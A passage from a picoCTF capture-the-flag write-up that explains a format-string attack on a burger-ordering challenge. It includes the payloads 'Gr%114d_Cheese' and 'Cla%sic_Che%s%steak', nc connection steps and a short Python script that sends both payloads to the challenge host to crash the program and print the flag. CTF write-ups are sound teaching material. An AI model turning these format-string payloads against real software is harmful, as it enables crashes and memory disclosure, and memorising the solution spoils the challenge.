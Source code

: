 3. Attack plan:
   - Use a first input that is a valid menu item but contains a format specifier that makes `printf` print many characters (so `count > 64`) to reach the second stage (`serve_bob()`).
   - In the second stage, provide a string with `%s`/other format specifiers so `printf` tries to dereference invalid pointers and causes a segmentation fault. The SIGSEGV handler then prints the `flag`.

4. Candidate payloads discovered from source menus:
   - Patrick’s menu contains `Gr%114d_Cheese` — `%114d` will expand and print many characters.
   - Bob’s menu contains `Cla%sic_Che%s%steak` — multiple `%s` will read memory as pointers and likely crash.

## Steps to reproduce (manual)

1. Launch the service locally or connect to the remote instance:
   - Local: `./burger` (ensure `flag.txt` is present)
   - Remote: `nc mimas.picoctf.net 53816`

2. When prompted for the first customer, enter:
```
Gr%114d_Cheese
```
This causes `printf(choice1)` to print >64 chars, so the program calls `serve_bob()`.

3. When prompted for the second customer, enter:
```
Cla%sic_Che%s%steak
```
This should cause `printf(choice2)` to dereference bad memory and trigger a SIGSEGV. The SIGSEGV handler prints the flag buffer.

## Automated exploit (short Python)

Save this as `get_flag_short.py` and run with `python3 get_flag_short.py`.

```python
#!/usr/bin/env python3
# Minimal script to interact with remote challenge
import socket, time
HOST, PORT = "mimas.picoctf.net", 53816
P1, P2 = b"Gr%114d_Cheese\n", b"Cla%sic_Che%s%steak\n"
def recv_all(s, timeout=5):
    s.settimeout(0.5); end=time.time()+timeout; out=b""
    while time.time()<end:
        try: c=s.recv(4096)
        except socket.timeout: continue
        if not c: break
        out+=c
    return out
with socket.create_connection((HOST, PORT), timeout=8) as s:
    print(recv_all(s,3).decode(errors="ignore"), end="")
    s.sendall(P1); time.sleep(0.2)
    print(recv_all(s,3).decode(errors="ignore"), end="")
    s.sendall(P2)
    print(recv_all(s,4).decode(errors="ignore"), end="")
```
